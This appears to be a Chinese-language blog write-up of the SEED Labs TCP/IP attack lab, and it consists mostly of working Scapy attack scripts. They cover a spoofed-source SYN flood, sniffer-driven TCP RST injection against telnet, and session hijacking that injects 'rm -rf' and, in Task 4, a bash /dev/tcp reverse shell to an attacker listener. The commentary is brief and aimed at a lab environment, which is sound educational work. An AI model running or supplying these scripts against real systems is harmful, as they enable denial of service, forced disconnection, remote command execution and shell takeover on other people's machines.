 ```yaml
---
title: SeedLab ex3 TCP/IP Attack Lab
date: 2023-12-22
categories:
 - 网络安全
cover: /images/covers/grid.png
---
```

雨宫哲你是伟大的
<!--  -->
## Task1: SYNFlooding Attack

###  Task 1.1: Launching the Attack Using Python

pyhton syn flood 代码

```python
#!/bin/env python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits
ip = IP(dst="10.9.0.5") # victim ip
tcp = TCP(dport=23, flags="S")# telnet port
pkt = ip/tcp
while True:
	pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
	pkt[TCP].sport = getrandbits(16) # source port
	pkt[TCP].seq = getrandbits(32) # sequence number
	send(pkt, verbose = 0)
```

先运行1分钟，在telnet victim，大概会出错，再排查问题

使用python代码进行实验，执行这段代码至少超过一分钟，发现并不能有效的实现泛洪攻击，telnet仍然能够成功连接。有可能是因为Python程序可能不够快，在竞争TCP半开放连接队列，可能输给合法的telnet数据包。还可能由于TCP的缓存机制，如果禁用了SYN Cookies，TCP将为“已验证目标”在排队队列中保留四分之一的空间，如果先记住了用户的ip，会不受泛洪影响。

1. TCP cache 清空
2. 多开synflood.py



### Task 1.2: Launch the Attack Using C

1. 编译
2. 清空缓存
3. 执行

###  Task 1.3: Enable the SYN Cookie Countermeasure

Please enable the SYN cookie mechanism, and run your attacks again, and compare the results

启用SYN Cookie机制后，服务器会在接收到TCP连接请求时，不立即分配资源和建立连接，而是生成一个特殊的cookie值发送给客户端。只有在客户端回应时，服务器才验证这个cookie值，如果验证通过，才正式建立连接。这样做的好处是，服务器无需在收到SYN包时立即分配资源，而是将部分连接状态保存在cookie中，从而能够有效抵御SYN洪水攻击。

## Task2: TCP RST Attacks on telnet Connections

服务器向客户端发送rst tcp包，找到服务器发给客户端的报文最新得报文

user1 telnet victim

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.5", dst="10.9.0.6")
tcp = TCP(sport=23, dport=43378, flags="R", seq=2402526666)
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)

```
auto

```python
#!/usr/bin/env python3
from scapy.all import *


def rst_attack(packet):
    if packet.haslayer(IP) and packet.haslayer(TCP):
        if packet[TCP].dport == 23:  # 检查是否是telnet
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")

            # 伪造 从服务器向客户端发送的rst
            ip = IP(src=packet[IP].dst, dst=packet[IP].src)
            tcp = TCP(
                sport=packet[TCP].dport, dport=packet[TCP].sport, flags="R", seq=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            rst_packet = ip / tcp
            send(rst_packet, verbose=0)
            print("TCP RST packet sent")


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=rst_attack, store=0)

```

## Task3: TCP Session Hijacking

manual，手动会话劫持，wireshark看最后的包信息，获取seq ack port，执行后光标会动不了，原因是seq和ack乱了好像

在使用user进行 telnet victim后，通过wireshark工具查看包信息，获取伪装成为 victim 向 user 发送下一个rst包的seq。
```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=56952, dport=23, flags="A", seq=1006118204, ack=1285162686)
data = "rm -rf new.txt\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)

```


auto，选作
```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False


def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data) # 判断是否登录
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            data = "rm -rf new.txt\r"

            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)


iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```

## Task4: Creating Reverse Shell using TCP Session Hijacking

执行指令nc -lnv 9090，在本地（-l）以监听模式启动 netcat 工具，监听在9090端口上，并输出详细信息。运行自动劫持的代码，在telnet连接后，会自动执行 “/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r”命令。创建一个反向shell 映射到10.9.0.1的9090端口输入从tcp连接获取，错误输出重定向到tcp连接。

```python
#!/usr/bin/env python3
from scapy.all import *
import re
is_login = False

def hijack_attack(packet):
    global is_login
    if packet.haslayer(IP) and packet.haslayer(TCP):
        # 判断是否登陆成功
        if packet.haslayer(Raw):
            tcp_data = packet[TCP].load.decode(
                'utf-8', errors='ignore')  # 将二进制数据解码为字符串
            match = re.search(r'seed@76dac64f26d2', tcp_data)
            if match:
                is_login = True

        if packet[TCP].dport == 23 and is_login == True:  # 检查是否是telnet 是否d登录
            print(
                f"telnet from {packet[IP].src} to {packet[IP].dst}")
            # 劫持绘画
            ip = IP(src=packet[IP].src, dst=packet[IP].dst)
            tcp = TCP(
                sport=packet[TCP].sport, dport=packet[TCP].dport, flags="A", seq=packet[TCP].seq, ack=packet[TCP].ack)  # 客户端向服务器发送的ack 为服务端向客服端发送的seq
            # data = "rm -rf new.txt\r"
            data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
            hijack_packet = ip / tcp / data

            send(hijack_packet, verbose=0)
            print("Hijack packet sent")
            exit(0)

iface = "br-9539db83f0ea"
sniff(iface=iface, prn=hijack_attack, store=0)

```
